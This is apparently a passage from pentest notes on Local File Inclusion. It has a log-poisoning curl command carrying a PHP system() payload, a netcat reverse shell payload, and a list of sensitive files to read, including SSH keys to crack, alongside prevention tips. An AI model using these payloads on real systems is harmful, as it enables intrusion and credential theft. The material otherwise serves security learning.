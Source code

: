 Then we will try to log in with any password. Now we just need to reload the log in the web, then the code is executed.
```console
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/auth.log"
```

---

# Prevention

- **File Inclusion Prevention**: avoid passing any user-controlled inputs into any file inclusion functions or APIs 
- **Preventing Directory Traversal**: use your programming language's (or framework's) built-in tool to pull only the filename (in PHP the function `basename()`) or sanitize the input 

```php
while(substr_count($input, '../', 0)) {
    $input = str_replace('../', '', $input);
};
```

- **Web Server Configuration**: set `allow_url_fopen` and `allow_url_include` Off
- **Web Application Firewall (WAF)**: using some, like *ModSecurity*

---

# Other

## Reverse Shell
We can execute code accesing **/proc/self/environ**. We can modify the header in burpsuite to add:
```php
<?passthru('nc -e /bin/bash <ip> <port>');?>
```
To execute the reverse shell.

## Important things to check 

We can check some important files:
- **/home/user/.ssh/id_rsa ->** check credentials for a ssh connection, with **ssh2john** we can break any ssh password if its weak or we have it in a dictionary.
- **/proc/sched_debug ->**  show many running scripts
- **/proc/net/fib_trie ->** check network interfaces (with `grep -i  "host local" -B 1` we can get local ip).
- **/proc/net/tcp ->** check port. The last four digits from the second column (rem\_address), if we add a **0x** in Python before we can get the port (its common to not get the port 80).

---

# Resources 

| **Link**   | **Description**    |
|--------------- | --------------- |
| [dotdotpwn](https://www.kali.org/tools/dotdotpwn/) | is a very flexible intelligent fuzzer to discover traversal directory vulnerabilities |

